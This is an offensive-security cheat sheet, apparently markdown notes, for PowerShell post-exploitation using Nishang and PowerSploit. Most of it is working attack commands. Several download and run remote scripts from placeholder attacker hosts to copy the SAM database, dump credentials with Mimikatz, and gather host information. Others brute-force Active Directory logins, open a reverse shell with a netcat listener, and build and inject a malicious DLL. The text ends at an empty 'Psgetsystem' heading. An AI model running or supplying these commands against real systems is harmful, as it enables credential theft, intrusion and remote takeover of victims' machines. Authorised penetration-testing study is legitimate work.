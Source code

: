 ## Post-Exploitation with Powershell

[Nishang](https://github.com/samratashok/nishang) is very good post-explotation framework.

- **Nishang**
    
    - Copy-VSS module will attemptto copy the SAM database use the VSS service.  
        `iex (New-Object Net.Webclient).DownloadString("http://attacker.url/Copy-VSS.ps1"); Copy-VSS`
    - `iex (New-Object Net.WebClient).DownloadString('http://attacker.url/Get-Information.ps1'); Get-Information`  
        This can give number of Information like:
        - Putty trusted hosts
        - Putty saved session
        - Recently used commands
        - Shares on the target machine
        - Environment Variables
        - Current user details
        - SNMP information
        - Installed applictions
        - Domain name
        - Content of host file
        - Running services
        - Account Policy
        - Local Users
        - Local Groups
        - WLAN info
    - `iex (New-Object Net.WebClient).DownloadString('http://attacker/Invoke-Mimikatz'); Invoke-Mimikatz -DumpCreds`
    - For Brute forcing and Active Directory:  
        `Invoke-BruteForce -ComputerName targetdomain.com -UserList C:\temp\users.txt -PasswordList C:\tmp\pwds.txt -Service ActvieDirectory -StopOnSuccess -Verbose`
    - Reverse powershell Netcat  
        `powershell.exe -Command iex (New-Object Net-WebClient).DownloadString('http://<attacker-url>/Invoke-PowershellTcp.ps1'); Invoke-PowershellTcp -Reverse -IPAddress <listener_ip> -Port 4444`  
        Before that we have to start a netcat listner in our machine: `nc -nlvp 4444`
    - There are several types of shells available in Nishang also complex ones called rat type shells. Explore shell folder for more.
- **Powersploit - PowerUp**
    
    - [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
    - `Import-Module .\Privesc.psm1`  
        `Get-Command -Module Privesc`  
        `Invoke-AllChecks` will run all function related to the Privesc module looking for misconfigurations, permissions issues with services, oppurtunities for DLL hijacking a number of other useful checks.  
        `Invoke-AllChecks -HTMLReport`
- **Powersploit -DLL Injection**
    
    - `msfvenom -p windows/exec CMD="cmd.exe" -f dll > cmd.dll` or can create a meterpreter reverse shell.
    - `iex (New-Object Net.WebClient).DownloadFile('http://attacker_url/cmd.dll', 'C:\programdata\cmd.dll')`
    - `ps | ? {$_.ProcessName -match "notepad"}` can be used to identify process that we can use to inject dll.
    - `iex (New-Object Net.Webclient).DownloadString('http://attacker_url/Invoke-DLLInjection.ps1'); Invoke-DLLInjection -ProcessID 7420 c:\programdata\cmd.dll`  
        [More info on dll-injection](http://blog.opensecurityresearch.com/2013/01/windows-dll-injection-basics.html)
- **Psgetsystem**
    